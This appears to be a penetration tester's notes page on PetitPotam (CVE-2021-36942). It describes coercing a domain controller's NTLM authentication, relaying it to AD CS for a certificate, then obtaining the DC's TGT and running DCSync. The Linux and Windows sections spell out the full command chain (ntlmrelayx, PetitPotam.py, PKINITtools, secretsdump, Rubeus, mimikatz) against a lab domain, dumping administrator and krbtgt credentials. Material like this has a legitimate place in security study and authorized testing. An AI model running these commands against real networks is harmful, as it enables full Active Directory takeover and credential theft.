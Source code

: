 # PetitPotam

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**PetitPotam**</mark> **(CVE-2021-36942)** is an <mark style="color:purple;">**LSA spoofing vulnerability**</mark> patched in <mark style="color:yellow;">**August 2021**</mark>.&#x20;

It allows an unauthenticated attacker to coerce a Domain Controller (DC) into authenticating to a malicious host via NTLM over LSARPC (port 445) by abusing the MS-EFSRPC interface. When combined with misconfigured **Active Directory Certificate Services (AD CS)**, the attacker can relay this authentication to the CA’s Web Enrollment interface, submit a malicious **Certificate Signing Request (CSR)**, and obtain a certificate usable for domain compromise.

### <mark style="color:blue;">Requirements</mark>

* EFSRPC or Print Spooler enabled on DC
* AD CS with **Web Enrollment + vulnerable template**
* SMB signing not required (or relaying to HTTP)
* <mark style="color:green;">`PetitPotam`</mark> + <mark style="color:green;">`Impacket`</mark> + <mark style="color:green;">`Certipy`</mark>

## <mark style="color:yellow;">FLOW</mark>

> Vulnerability itself only coercing an auth. But as example if we combine it to NTLM relay to ADCS, we could make a big impact.

### <mark style="color:blue;">1. Getting TGT</mark>

1. Setup the Trap with <mark style="color:green;">`ntlmrelayx.py`</mark>
2. Force Auth with <mark style="color:green;">`PetitPotam.py`</mark> so DC is trying to auth to us
3. Relay the Auth to ADCS
4. Get the Cert if ADCS is misconfigured, so it thinks we are DC
5. Become DC (Kerberos). We could use cert to ask for DC's TGT.

> After getting DC's TGT there are different options:

6. **DCSync with using TGT**

### <mark style="color:blue;">**2. Stealing Hash for DCSync**</mark>

1. **Using the TGT**: The tool uses the TGT in your cache to communicate with the Key Distribution Center (KDC).
2. **User-to-User Request**: It sends a Kerberos User-to-User (U2U) request to the KDC, asking for a Service Ticket for the DC machine account.
3. **PAC**: The service ticket contains a Privileged Attribute Certificate (PAC) with the NTLM hash of the machine account.
4. **Decrypting the Ticket**: Using the AS-REP encryption key from TGT we captured earlier, the tool decrypts the ticket and extracts the PAC, which includes the NTLM hash.
5. **Extracting the Hash**: The NTLM hash (e.g., <mark style="color:green;">`313b6f...`</mark>) is then extracted from the PAC data.

### <mark style="color:blue;">3. Stealing Base64 Cert for TGT and PTT</mark>

> Here we are using Rubeus and mimikatz, so this variation is for windows

1. **Get a base64 Cert** (from <mark style="color:green;">`ntlmrelayx.py`</mark> part)
2. Using <mark style="color:green;">`Rubeus`</mark> with cert for TGT request
3. Confirming ticket in memory
4. **DCSync** with <mark style="color:green;">`mimikatz`</mark>

## <mark style="color:yellow;">LINUX</mark>

#### Starting ntlmrelay.py

> Here we are relaying NTLM request and getting a AD CS certificate

```bash
sudo ntlmrelayx.py -debug -smb2support --target http://EA-CA01.MILITECH.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

#### PetitPotam

```bash
python3 PetitPotam.py 13.13.13.13 37.37.37.37 # 13th is attacker IP, 37 is DC 
```

#### Requesting TGT with **gettgtpkinit.py**

```bash
python3 /opt/PKINITtools/gettgtpkinit.py MILITECH.LOCAL/EA-DC01\$ -pfx-base64 MIISKBdGmY= dc01.ccache
```

#### Setting TGT Environment Variable

```bash
export KRB5CCNAME=dc01.ccache
```

#### Using DC's TGT for DCSync

```bash
secretsdump.py -just-dc-user MILITECH/administrator -k -no-pass "EA-DC01$"@EA-DC01.MILITECH.LOCAL
```

***

> This is part from point 2 in Flow section, where getting hash for TGT. That's why I separated it with line above.

**TGS Request to extract a hash**&#x20;

```bash
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836asdasd MILITECH.LOCAL/EA-DC01$
```

#### DCSync by using hash

```bash
secretsdump.py -just-dc-user MILITECH/administrator "EA-DC01$"@13.13.13.13 -hashes aad3c435b:9fb4ba
```

## <mark style="color:yellow;">WINDOWS</mark>

#### **Requesting TGT and Performing PTT**

```powershell
PS C:\> .\Rubeus.exe asktgt /user:MILITECH-EA-DC01$ /certificate:MIIStgsFSADFfksCRy4= /ptt
```

#### Confirming Ticket

```powershell
PS C:\> klist
```

#### DCSync with Mimikatz

```powershell
PS C:\> .\mimikatz.exe
mimikatz # lsadump::dcsync /user:militech\krbtgt
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr" %}
